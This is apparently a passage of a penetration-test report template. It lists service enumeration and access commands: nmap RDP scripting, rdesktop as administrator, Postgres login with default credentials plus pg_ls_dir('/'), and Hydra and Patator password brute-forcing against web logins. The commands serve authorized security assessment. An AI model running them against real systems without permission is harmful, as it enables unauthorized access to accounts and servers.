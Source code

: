 ### SQL
```bash
mysql -u $USER -h $TARGET

# output
NSTR
```

### RDP
```bash
sudo nmap $TARGET -p3389 --script rdp-ntlm-info -oN scans/$NAME-nmap-script-rdp-ntlm-info

# output
NSTR
```

```bash
rdesktop -u administrator $TARGET
```

### Postgres
```bash
psql -U postgres -p 5437 -h $TARGET # postgres:postgres
SELECT pg_ls_dir('/');
```

## Gaining Access
The penetration testing portions of the assessment focus heavily on gaining access to a variety of systems. During this penetration test, Victor was able to successfully gain access to 10 out of the 50 systems.

### Password Guessing  
#### Default Credentials
```bash
# CMS Web App 9000
# admin:admin
```

#### Hydra
```bash
hydra -l root -P /usr/share/wordlists/rockyou.txt $TARGET http-post-form "/phpmyadmin/index.php?:pma_username=^USER^&pma_password=^PASS^:Cannot|without"

# output
NSTR
```

#### Patator
```bash
patator http_fuzz url=http://$TARGET/$LOGIN method=POST body='username=FILE0&password=FILE1' 0=usernames.txt 1=/usr/share/wordlists/rockyout.txt -x ignore:fgrep=Unauthorized
```
